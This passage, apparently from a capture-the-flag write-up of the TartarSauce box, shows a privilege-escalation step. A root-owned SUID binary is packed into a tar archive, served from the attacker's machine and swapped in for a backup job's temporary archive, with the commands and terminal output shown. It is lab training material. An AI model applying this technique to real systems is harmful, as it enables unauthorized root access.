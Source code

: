 Now make the archive. I’ll make use of the `--owner` and `--group` options to make sure it is owned by root (unnecessary, but a neat trick if you want to add a file with a different owner/group):

```

root@kali# tar zcvf suid.tar.gz var --owner=root --group=root
var/
var/www/
var/www/html/
var/www/html/suid

```

### Replace Archive

Use `python3 -m http.server 9000` to create a webserver on my local box, and then get the archive with `wget`.

Then use `systemctl list-timers` to wait for when the job runs, and the temporary archive is created. When it is, replace it with my archive.

Use `systemctl list-timers` to see when the archive will appear:

```

onuma@TartarSauce:/var/tmp$ systemctl list-timers
NEXT                         LEFT     LAST                         PASSED       UNIT                         ACTIVATES
Sun 2018-10-21 14:05:40 EDT  2s left  Sun 2018-10-21 14:00:40 EDT  4min 57s ago backuperer.timer             backuperer.service
Sun 2018-10-21 14:06:27 EDT  49s left Sat 2018-10-20 19:31:58 EDT  18h ago      apt-daily.timer              apt-daily.service
Mon 2018-10-22 06:10:48 EDT  16h left Sun 2018-10-21 06:42:35 EDT  7h ago       apt-daily-upgrade.timer      apt-daily-upgrade.service
Mon 2018-10-22 11:29:12 EDT  21h left Sun 2018-10-21 11:29:12 EDT  2h 36min ago systemd-tmpfiles-clean.timer systemd-tmpfiles-clean.service  

```

See the archive:

```

onuma@TartarSauce:/var/tmp$ ls -la
total 9172
drwxrwxrwt  8 root  root     4096 Oct 21 14:05 .
drwxr-xr-x 14 root  root     4096 Feb  9  2018 ..
-rw-r--r--  1 onuma onuma 9355264 Oct 21 14:05 .8dc600473f3730872b2c52a44da6d0bd4efb2297
-rw-r--r--  1 onuma onuma    2715 Oct 21  2018 suid.tar.gz
drwx------  3 root  root     4096 Feb 17  2018 systemd-private-46248d8045bf434cba7dc7496b9776d4-systemd-timesyncd.service-en3PkS
drwx------  3 root  root     4096 Feb 17  2018 systemd-private-7bbf46014a364159a9c6b4b5d58af33b-systemd-timesyncd.service-UnGYDQ
drwx------  3 root  root     4096 Feb 15  2018 systemd-private-9214912da64b4f9cb0a1a78abd4b4412-systemd-timesyncd.service-bUTA2R
drwx------  3 root  root     4096 Feb 15  2018 systemd-private-a3f6b992cd2d42b6aba8bc011dd4aa03-systemd-timesyncd.service-3oO5Td
drwx------  3 root  root     4096 Oct 20 11:14 systemd-private-b120a3d973224fcfb7073b9bfabac416-systemd-timesyncd.service-f9rGuA
drwx------  3 root  root     4096 Feb 15  2018 systemd-private-c11c7cccc82046a08ad1732e15efe497-systemd-timesyncd.service-QYRKER  

```
